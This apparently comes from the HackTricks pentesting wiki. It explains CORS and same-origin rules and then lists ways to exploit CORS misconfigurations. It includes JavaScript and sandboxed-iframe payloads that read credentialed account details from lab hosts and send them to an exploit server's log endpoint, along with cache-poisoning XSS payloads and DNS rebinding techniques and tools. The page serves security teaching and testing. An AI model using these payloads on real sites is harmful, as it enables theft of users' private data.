

# CORS - Misconfigurations & Bypass

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## What is CORS?

The CORS (Cross-origin resource sharing) standard is needed because it **allows servers to specify who can access its assets** and which **HTTP request methods are allowed** from external resources.

A **same-origin** policy, requiers that both the **server requesting** a resource and the server where the **resource** is located uses the same protocol ([http://),domain](http://\),domain) name (internal-web.com) and the same **port** (80). Then, if the server forces the same-origin policy, only web pages from the same domain and port will be able to access the resources.

The following table shows how the same-origin policy will be applied in `http://normal-website.com/example/example.html` :

| URL accessed                              | Access permitted?                  |
| ----------------------------------------- | ---------------------------------- |
| `http://normal-website.com/example/`      | Yes: same scheme, domain, and port |
| `http://normal-website.com/example2/`     | Yes: same scheme, domain, and port |
| `https://normal-website.com/example/`     | No: different scheme and port      |
| `http://en.normal-website.com/example/`   | No: different domain               |
| `http://www.normal-website.com/example/`  | No: different domain               |
| `http://normal-website.com:8080/example/` | No: different port\*               |

\*_Internet Explorer will allow this access because IE does not take account of the port number when applying the same-origin policy._

### `Access-Control-Allow-Origin` Header

The specification of `Access-Control-Allow-Origin` allows for **multiple origins**, or the value **`null`**, or the wildcard **`*`**. However, **no browser supports multiple origins** and there are **restrictions** on the use of the **wildcard** `*`.(_The wildcard can only be used alone, this will fail `Access-Control-Allow-Origin: https://*.normal-website.com` and it cannot be used with_ _Access-Control-Allow-Credentials: true_)

This header is **returned by a server** when a website requests a cross-domain resource, with an `Origin` header added by the browser.

### `Access-Control-Allow-Credentials` Header

The **default** behaviour of cross-origin resource requests is for **requests** to be **passed without credentials** like cookies and the Authorization header. However, the cross-domain server can **permit reading** of the **response** when **credentials** are **passed** to it by setting the CORS **`Access-Control-Allow-Credentials`** header to **`true`**.

If the value is set to `true`then the browser will send credentials (cookies, authorization headers or TLS client certificates).

```javascript
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if(xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
        console.log(xhr.responseText);
    }
}
xhr.open('GET', 'http://example.com/', true); 
xhr.withCredentials = true; 
xhr.send(null);
```

```javascript
fetch(url, {
  credentials: 'include'  
})
```

```javascript
const xhr = new XMLHttpRequest();
xhr.open('POST', 'https://bar.other/resources/post-here/');
xhr.setRequestHeader('X-PINGOTHER', 'pingpong');
xhr.setRequestHeader('Content-Type', 'application/xml');
xhr.onreadystatechange = handler;
xhr.send('<person><name>Arun</name></person>');
```

### Pre-flight request

Under certain circumstances, when a cross-domain request:

* includes a **non-standard HTTP method (HEAD, GET, POST)**
* includes new **headers**
* includes special **Content-Type header value**


**Check** [**in this link**](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#simple\_requests) **the conditions of a request to avoid sending of a pre-flight request**


the cross-origin request is preceded by a **request** using the **`OPTIONS`** **method**, and the CORS protocol necessitates an initial check on what **methods and headers are permitted prior to allowing the cross-origin request**. This is called the **pre-flight check**. The server **returns a list of allowed methods** in addition to the **trusted origin** and the browser checks to see if the requesting website's method is allowed.


Note that **even if a pre-flight request isn't sent** because the "regular request" conditions are respected, the **response needs to have the authorization headers** or the **browser** **won't be able to read the response** of the request.


For **example**, this is a pre-flight request that is seeking to **use the `PUT` method** together with a **custom** request **header** called `Special-Request-Header`:

```
OPTIONS /data HTTP/1.1
Host: <some website>
...
Origin: https://normal-website.com
Access-Control-Request-Method: PUT
Access-Control-Request-Headers: Special-Request-Header
```

The server might return a response like the following:

```
HTTP/1.1 204 No Content
...
Access-Control-Allow-Origin: https://normal-website.com
Access-Control-Allow-Methods: PUT, POST, OPTIONS
Access-Control-Allow-Headers: Special-Request-Header
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 240
```

* `Access-Control-Allow-Headers` Allowed headers
* `Access-Control-Expose-Headers`
* `Access-Control-Max-Age` Defines a maximum timeframe for caching the pre-flight response for reuse
* `Access-Control-Request-Headers` The header the cross-origin request wants to send
* `Access-Control-Request-Method` The method the cross-origin request wants to use
* `Origin` Origin of the cross-origin request (Set automatically by the browser)



Note that usually (depending on the content-type and headers set) in a **GET/POST request no pre-flight request is sent** (the request is sent **directly**), but if you want to access the **headers/body of the response**, it must contains an _Access-Control-Allow-Origin_ header allowing it.\
**Therefore, CORS doesn't protect against CSRF (but it can be helpful).**

### **Local Network Requests Pre-flight request**

When a request is sent to a local network IP address, 2 additional CORS headers are sent:

* The `Access-Control-Request-Local-Network` client request header indicates that the request is a local network request
* The `Access-Control-Allow-Local-Network` server response header indicates that a resource can be safely shared with external networks

A **valid response allowing the local network request** needs to have also in the response the header `Access-Controls-Allow-Local_network: true` :

```
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://public.example.com
Access-Control-Allow-Methods: GET
Access-Control-Allow-Credentials: true
Access-Control-Allow-Local-Network: true
Content-Length: 0
...
```


Note that the linux **0.0.0.0** IP works to **bypass** these requirements to access localhost as that IP address is not considered "local".

It's also possible to **bypass the Local Network requirements** if you use the **public IP address of a local endpoint** (like the public IP of the router). Because in several occations, even if the **public IP** is being accessed, if it's **from the local network**, access will be granted.




## Exploitable misconfigurations

Notice that most of the **real attacks require `Access-Control-Allow-Credentials`** to be set to **`true`** because this will allow the browser to send the credentials and read the response. Without credentials, many attacks become irrelevant; it means you can't ride on a user's cookies, so there is often nothing to be gained by making their browser issue the request rather than issuing it yourself.

One notable exception is when the **victim's network location functions as a kind of authentication.** You can use a victim’s browser as a proxy to bypass IP-based authentication and access intranet applications. In terms of impact this is similar to DNS rebinding, but much less fiddly to exploit.

### Reflected `Origin` in `Access-Control-Allow-Origin`

In the real world this cannot happen as **these 2 values of the headers are forbidden together**.\
It is also true that a lot of developers want to **allow several URLs in the CORS**, but subdomain wildcards or lists of URLs aren't allowed. Then, several developers **generate** the \*\*`Access-Control-Allow-Origin`\*\*header **dynamically**, and in more than one occasion they just **copy the value of the Origin header**.

In that case, the **same vulnerability might be exploited.**

In other cases, the developer could check that the **domain** (_victimdomain.com_) **appears** in the **Origin header**, then, an attacker can use a domain called **`attackervictimdomain.com`** to steal the confidential information.

```html
<script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','https://acc21f651fde5631c03665e000d90048.web-security-academy.net/accountDetails',true);
   req.withCredentials = true;
   req.send();

   function reqListener() {
       location='/log?key='+this.responseText;
   };
</script>
```

### The `null` Origin

`null` is a special value for the **Origin** header. The specification mentions it being triggered by redirects, and local HTML files. Some applications might whitelist the `null` origin to support local development of the application.\
This is nice because **several application will allow this value** inside the CORS and any **website can easily obtain the null origin using a sandboxed iframe**:

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://acd11ffd1e49837fc07b373a00eb0047.web-security-academy.net/accountDetails',true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location='https://exploit-accd1f8d1ef98341c0bc370201c900f2.web-security-academy.net//log?key='+encodeURIComponent(this.responseText);
  };
</script>"></iframe>
```

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://acd11ffd1e49837fc07b373a00eb0047.web-security-academy.net/accountDetails',true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location='https://exploit-accd1f8d1ef98341c0bc370201c900f2.web-security-academy.net//log?key='+encodeURIComponent(this.responseText);
  };
</script>"></iframe>
```

### **Regexp bypasses**

If you found the domain _victim.com_ to be **whitelisted** you should check if _victim.com.**attacker.com**_ is **whitelisted also**, or, in case you can **takeover some subdomain**, check if _**somesubdomain**.victim.com_ is whitelisted.

### **Advance Regexp bypasses**

Most of the regex used to identify the domain inside the string will focus on alphanumeric ASCII characters and `.-` . Then, something like `victimdomain.com{.attacker.com` inside the Origin header will be interpreted by the regexp as if the domain was `victimdomain.com` but the browser (in this case Safari supports this character in the domain) will access the domain`attacker.com` .

The `_` character (in subdomains) is not only supported in Safari, but also in Chrome and Firefox!

**Then, using one of those subdomains you could bypass some "common" regexps to find the main domain of a URL.**

**For more information and settings of this bypass check:** [**https://www.corben.io/advanced-cors-techniques/**](https://www.corben.io/advanced-cors-techniques/) **and** [**https://medium.com/bugbountywriteup/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397**](https://medium.com/bugbountywriteup/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397)

.png>)

### From XSS inside a subdomain

One defensive mechanism developers use against CORS exploitation is to white-list domains that frequently requests access for information. However, this isn’t entirely secure, because if even **one** of the subdomains of the **whitelisted** domain is **vulnerable** to other exploits such as **XSS**, it can enable CORS exploitation.

Let us consider an example, the following code shows the configuration that allows subdomains of _requester.com_ to access resources of _provider.com_.

```javascript
if ($_SERVER['HTTP_HOST'] == '*.requester.com')
 {
  //Access data
  else{ // unauthorized access}
}
```

Assuming that a user has access to sub.requester.com but not requester.com, and assuming that `sub.requester.com` is vulnerable to XSS. The user can exploit `provider.com` by using cross-site scripting attack method.

### **Server-side cache poisoning**

If the stars are aligned we may be able to use server-side cache poisoning via HTTP header injection to create a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability.

If an application **reflects** the **Origin header** without even checking it for illegal characters like , we effectively have a **HTTP header injection vulnerability against IE/Edge users as Internet Explorer and Edge view \r (0x0d) as a valid HTTP header terminator**:`GET / HTTP/1.1`\
`Origin: z[0x0d]Content-Type: text/html; charset=UTF-7`

Internet Explorer sees the response as:

`HTTP/1.1 200 OK`\
`Access-Control-Allow-Origin: z`\
`Content-Type: text/html; charset=UTF-7`

This isn't directly exploitable because there's no way for an attacker to make someone's web browser send such a malformed header, but I can **manually craft this request in Burp Suite and a server-side cache may save the response and serve it to other people**. The payload I've used will change the page's character set to **UTF-7**, which is notoriously useful for creating XSS vulnerabilities.

### **Client-Side cache poisoning**

You may have occasionally encountered a page with [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) in a custom HTTP header. Say a web page reflects the contents of a custom header without encoding:

```http
GET / HTTP/1.1  
Host: example.com  
X-User-id: &lt;svg/onload=alert\(1\)&gt;

HTTP/1.1 200 OK  
Access-Control-Allow-Origin: \*  
Access-Control-Allow-Headers: X-User-id  
Content-Type: text/html  
...  
Invalid user: &lt;svg/onload=alert\(1\)&gt;\
```

With CORS, we can send any value in the Header. By itself, **that's useless** since the response containing our **injected JavaScript won't be rendered**. However, **if Vary: Origin hasn't been specified** the response **may be stored in the browser's cache and displayed directly when the browser navigates to the associated URL**. I've made a fiddle to [attempt this attack on a URL of your choice](https://jsfiddle.net/3gk8u8wu/3/). Since this attack uses client-side caching, it's actually quite reliable.

```markup
<script>
function gotcha() { location=url }
var req = new XMLHttpRequest();
url = 'https://example.com/'; // beware of mixed content blocking when targeting HTTP sites
req.onload = gotcha;
req.open('get', url, true);
req.setRequestHeader("X-Custom-Header", "<svg/onload=alert(1)>")
req.send();
</script>
```

## Bypass

### XSSI (Cross-Site Script Inclusion) / JSONP

XSSI designates a kind of vulnerability which exploits the fact that, when a resource is included using the `script` tag, the SOP doesn’t apply, because scripts have to be able to be included cross-domain. An attacker can thus read everything that was included using the `script` tag.

This is especially interesting when it comes to dynamic JavaScript or JSONP when so-called ambient-authority information like cookies are used for authentication. The cookies are included when requesting a resource from a different host. BurpSuite plugin: [https://github.com/kapytein/jsonp](https://github.com/kapytein/jsonp)

[**Read more about the difefrent types of XSSI and how to exploit them here.**](xssi-cross-site-script-inclusion.md)

Try to add a **`callback`** **parameter** in the request. Maybe the page was prepared to send the data as JSONP. In that case the page will send back the data with `Content-Type: application/javascript` which will bypass the CORS policy.

.png>)

### Easy (useless?) bypass

You can ask a web-application to make a request for you and send back the response. This will bypass the **`Access-Control-Allow-Origin`** but notice that the **credentials to the final victim won't be sent** as you will be **contacting a different domain** (the one that will make the request for you).

[**CORS-escape**](https://github.com/shalvah/cors-escape)

CORS-escape provides a **proxy** that **passes** on our **request** along with its **headers**, and it also **spoofs** the **Origin** header (Origin = **requested domain**). So the **CORS policy is bypassed**.\
The source code is [on Github](https://github.com/shalvah/cors-escape), so you can **host your own**.

```javascript
xhr.open("GET", "https://cors-escape.herokuapp.com/https://maximum.blog/@shalvah/posts");
```

[**simple-cors-escape**](https://github.com/shalvah/simple-cors-escape)

Proxying is kinda like “passing on" your request, exactly as you sent it. We could solve this in an alternative way that still involves someone else making the request for you, but this time, **instead of using passing on your request, the server makes its own request, but with whatever parameters you specified.**

### Iframe + Popup Bypass

You can **bypass CORS checks** such as `e.origin === window.origin` by **creating an iframe** and **from it opening a new window**. More information in the following page:


[iframes-in-xss-and-csp.md](xss-cross-site-scripting/iframes-in-xss-and-csp.md)


### DNS Rebinding via TTL

.png>)

Basically you make the **victim access your page**, then you change the **DNS of your domain (the IP)** and make it **points** to your **victims web page**. You make your **victim execute** (**JS**) something when the **TTL is** **over** so a new DNS request will be made and then you will be able to gather the information (as you will always maintains **the user in your domain**, he won't send **any cookie** to the victim server, so this options **abuses the special privileges of the IP of the victim**).

Even if you set the **TTL very low** (0 or 1) **browsers have a cache** that will **prevent** you from **abusing** this for several seconds/minuted.

So, this technique is useful to **bypass explicit checks** (the victim is **explicitly performing a DNS request** to check the IP of the domain and when the bot is called he will do his own).

Or when you can have a **user/bot in the same page for a long time** (so you can **wait** until the **cache expires**).

If you need something quick to abuse this you can use a service like [https://lock.cmpxchg8b.com/rebinder.html](https://lock.cmpxchg8b.com/rebinder.html).

If you want to run your own DNS rebinding server you can use something like [**DNSrebinder**](https://github.com/mogwailabs/DNSrebinder)**,** then **expose** your **local port 53/udp**, create an **A registry pointing to it** (ns.example.com), and create a **NS registry** pointing to the **previously created A subdomain**(ns.example.com).\
Then, any subdomain of that subdomain (ns.example.com), will be resolved by your host.

Check out also the **publicly running server in** [**http://rebind.it/singularity.html**](http://rebind.it/singularity.html)

### DNS Rebinding via **DNS Cache Flooding**

As it was explained in the previous section, **browsers** have the IPs of domains **cached more time** than the one specified in the TTL. However, there is a way to bypass this defence.

You can have a service worker that will **flood the DNS cache to force a second DNS request**. SO the flow will be like:

1. DNS request responded with attacker address
2. Service worker floods DNS cache (the cached attacker server name is deleted)
3. Second DNS request this time responded with 127.0.0.1

 (1).png>)

_Blue is the first DNS request and orange is the flood._

### DNS Rebinding via **Cache**

As it was explained in the previous section, **browsers** have the IPs of domains **cached more time** than the one specified in the TTL. However, there is another way to bypass this defence.

You can **create 2 A records** (or **1 with 2 IPs**, depending on the provider) for the **same subdomain** in the **DNS provider** and when a browser checks for them he will get both.

Now, if the **browser** decides to **use** the **attacker IP address first**, the **attacker** will be able to **serve** the **payload** that will **perform HTTP requests** to the same **domain**. However, now that the attacker knows the IP of the victim, **he will stop answering the victim browser**.

When the browser finds that the **domain isn't responding** to him, it will **use the second given IP**, so he will **access a different place bypassing SOP**. The attacker can abuse that to **get the information and exfiltrate it**.


Note that in order to access localhost you should try to rebind **127.0.0.1** in Windows and **0.0.0.0** in linux.\
Providers such as godaddy or cloudflare didn't allow me to use the ip 0.0.0.0, but AWS route53 allowed me to create one A record with 2 IPs being one of them "0.0.0.0"




 (4).png>)

For more info you can check [https://unit42.paloaltonetworks.com/dns-rebinding/](https://unit42.paloaltonetworks.com/dns-rebinding/)

### Other Common Bypasses

* If **internal IPs aren't allowed**, they might **forgot forbidding 0.0.0.0** (works on Linux and Mac)
* If **internal IPs aren't allowed**, respond with a **CNAME** to **localhost** (works on Linux and Ma
* If **internal IPs aren't allowed** as DNS responses, you can respond **CNAMEs to internal services** such as www.corporate.internal.

### DNS Rebidding Weaponized

You can find more information about the previous bypass techniques and how to use the following tool in the talk [Gerald Doussot - State of DNS Rebinding Attacks & Singularity of Origin - DEF CON 27 Conference](https://www.youtube.com/watch?v=y9-0lICNjOQ).

[**`Singularity of Origin`**](https://github.com/nccgroup/singularity) is a tool to perform [DNS rebinding](https://en.wikipedia.org/wiki/DNS\_rebinding) attacks. It includes the necessary components to rebind the IP address of the attack server DNS name to the target machine's IP address and to serve attack payloads to exploit vulnerable software on the target machine.

### Real Protection against DNS Rebinding

* Use TLS in internal services
* Request authentication to access data
* Validate the Host header
* [https://wicg.github.io/private-network-access/](https://wicg.github.io/private-network-access/): Proposal to always send a pre-flight request when public servers want to access internal servers

## **Tools**

**Fuzz possible misconfigurations in CORS policies**

* [https://github.com/chenjj/CORScanner](https://github.com/chenjj/CORScanner)
* [https://github.com/lc/theftfuzzer](https://github.com/lc/theftfuzzer)
* [https://github.com/s0md3v/Corsy](https://github.com/s0md3v/Corsy)
* [https://github.com/Shivangx01b/CorsMe](https://github.com/Shivangx01b/CorsMe)

## References













{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CORS%20Misconfiguration" %}



<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
